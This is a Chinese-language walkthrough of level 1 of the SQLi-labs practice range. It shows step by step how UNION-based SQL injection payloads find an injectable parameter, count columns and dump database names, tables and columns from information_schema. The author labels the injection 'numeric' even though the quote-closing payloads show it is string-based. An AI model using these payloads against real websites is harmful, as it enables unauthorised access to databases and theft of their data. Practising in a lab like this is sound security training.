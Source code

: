 # sqllilabs靶场第一场记录

## 1、判断注入点

![image-20240928174439631](.\image-20240928174439631.png)

在url后面写?id=1,有回显，

![image-20240928175234835](.\image-20240928175234835.png)

输入?id=2，也有回显，输入?id=0，回显

![image-20240928174605844](.\image-20240928174605844.png)

判断有注入

加单引号：?id=1'

>   You have an error in your SQL syntax; check the  manual that corresponds to your MySQL server version for the right  syntax to use near ''1'' LIMIT 0,1' at line 1   
>
> 报错，从  '  '1'  ' LIMIT 0,1' 可以得知，多一个单引号，怀疑为数字型注入

因为单引号需要闭合，同时原先查询语句的单引号需要注释掉，构造语句

``` ?id=1' and 1=1 --+```

第一个单引号闭合sql语句的查询，--注释掉原先语句的的单引号，+在表示空格，回显：![image-20240928175256193](.\image-20240928175256193.png)

构造：?id=1' and 1=2 --+，回显：

![image-20240928175533142](.\image-20240928175533142.png)

确定为数字型注入

## 2、确定列数

构造

>  ?id=1' order by 10 --+

![image-20240928175648944](.\image-20240928175648944.png)

将5依次设置其他数值，发现id=3时：回显正常

![image-20240928175723787](.\image-20240928175723787.png)

确定有三列

## 3、回显位置

注入过程中，union和前面一条SQL语句拼接,并构造其列数与前面的SQL语句列数相同,如1,2,3==4,5,6均为3列。我们把这种注入方式称为union注入

构造

>  /id=-1' union select 1,2,3 --+

将1设置为-1使其原先的页面回显不显示，而回显union查询的部分，回显结果：

![image-20240928180711121](.\image-20240928180711121.png)

确定2和3为回显位

## 4、获取信息

> /?id=-1' union select 1,version(),database() --+

显示MySQL的版本与数据库名

![image-20240928180850166](.\image-20240928180850166.png)

当前用户名

> ?id=-1' union select 1,user(),current_user() --+

![image-20240928181048761](.\image-20240928181048761.png)

![image-20240928181346938](.\image-20240928181346938.png)

构造

> ?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+  爆出所有数据库名

![image-20240928181522103](.\image-20240928181522103.png)

爆当前数据库的表名

> ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

![image-20240928181909697](.\image-20240928181909697.png)

爆列名

> /?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+

![image-20240928182055387](.\image-20240928182055387.png)



其他表于此同理，至此大功告成













